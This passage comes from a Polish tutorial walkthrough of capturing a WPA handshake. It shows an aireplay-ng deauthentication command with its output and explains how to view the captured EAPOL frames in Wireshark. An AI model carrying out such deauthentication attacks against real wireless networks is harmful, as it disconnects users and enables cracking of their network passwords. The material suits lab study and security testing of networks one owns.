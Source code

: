 
7. W tej sytuacji można spróbować wykonać deautentykację klienta przy pomocy następującego polecenia:

    ```console
    root@debian:~# aireplay-ng -0 1 -a 5C:4C:A9:6B:EC:CD -c BC:CF:CC:FD:82:D3 mon0
    22:04:50 Waiting for beacon frame (BSSID: 5C:4C:A9:6B:EC:CD) on channel 11
    22:04:50 Sending 64 directed DeAuth. STMAC: [BC:CF:CC:FD:82:D3] [ 5|65 ACKs]
    ```

    Doprowadzi to do przechwycenia handshake. Opcją -a podaję MAC AP, a opcją -c MAC klienta, którego chcę odłączyć od sieci.

    ![](../../../../.gitbook/assets/61eebf87-4772-4120-a9b3-62bc85b6d66e/2abcebb0.png)


8. Przechwycone 4-way handshake można podejrzeć, np. przy pomocy wiresharka, otwierając w nim plik wpa-test-01.cap, utworzony w katalogu, w którym uruchomiłem wcześniej airodump-ng. Wpisując w górne okienko filtrowania frazę „eapol", uzyskuję wynik prezentujący poszczególne etapy handshake (zrzut poniżej).
